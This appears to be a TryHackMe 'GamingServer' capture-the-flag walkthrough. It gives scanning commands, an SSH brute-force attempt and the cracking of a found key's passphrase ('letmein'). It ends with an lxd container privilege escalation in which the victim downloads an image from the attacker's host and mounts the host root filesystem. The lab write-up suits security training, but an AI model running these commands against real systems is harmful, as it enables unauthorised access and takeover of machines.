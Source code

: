 # GamingServer

**Room Link:** [https://tryhackme.com/room/gamingserver](https://tryhackme.com/room/gamingserver)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>









<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>









### SSH port 22

Tried bruteforcing ssh with johns username and the dictionary file we found but it didn't work

**Kali**

```
hydra -l john -P dict.lst ssh://$VICTIM
```



### TCP/80 - HTTP



<figure><img src="../../.gitbook/assets/image (3) (16).png" alt=""><figcaption></figcaption></figure>



### SSH port 22

After finding the key I bruteforced that with the dictionary list found

**Kali**

```
chmod 700 secretKey
/opt/john/ssh2john.py secretKey > id_john.txt
john --wordlist=/root/dict.lst id_john.txt 
```

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh -i secretKey john@$VICTIM
Password: letmein
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>



### Privilege Escalation&#x20;

Followed this link on lxd privilege escalation&#x20;

**Link:** [https://www.hackingarticles.in/lxd-privilege-escalation/](https://www.hackingarticles.in/lxd-privilege-escalation/)

**Victim**

```
id
```

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
python2 -m SimpleHTTPServer 81
```

**Victim**

```
cd /tmp
wget http://10.10.73.204:81/alpine-v3.18-x86_64-20230712_1453.tar.gz
lxc image import ./alpine-v3.18-x86_64-20230712_1453.tar.gz --alias myimage
lxc image list
lxc init myimage ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
id
```

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

















































